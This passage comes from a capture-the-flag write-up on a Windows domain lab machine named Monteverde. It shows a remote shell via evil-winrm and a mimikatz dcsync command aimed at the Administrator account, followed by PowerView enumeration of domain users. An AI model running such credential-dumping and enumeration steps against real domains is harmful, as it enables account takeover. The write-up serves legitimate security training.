 
![AD Enumeration](/Monteverde/images/dc-windows.png) 


- Since we know we can get a working shell through evil-winrm. Let's try to upload mimikatz to the target and run the commands that it shows in the example.

	lsadump::dcsync /domain:megabank.local /user:Administrator

- I could never get mimikatz to stay on the target machine anti-virus kept removing it before I could execute it. Enumerating the domain and users some more I find the following information with PowerView 1st filtering on samaccountname, and useraccountcontrol. 


- Domain User Enum


	*Evil-WinRM* PS C:\Users\mhope\Documents> Get-DomainUser -Identity * -Domain megabank.local | select samaccountname, useraccountcontrol

	samaccountname                                                     useraccountcontrol
	--------------                                                     ------------------
	Administrator                                    NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
	Guest            ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
	krbtgt                                                 ACCOUNTDISABLE, NORMAL_ACCOUNT
	AAD_987d7f2f57d2                                 NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
	mhope                                            NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
	SABatchJobs                                      NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
	svc-ata                                          NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
	svc-bexec                                        NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
	svc-netapp                                       NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
	dgalanos                                         NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
	roleary                                          NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
	smorgan                                          NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD

	*Evil-WinRM* PS C:\Users\mhope\Documents> Get-DomainUser -Identity * -Domain megabank.local | select samaccountname, memberof

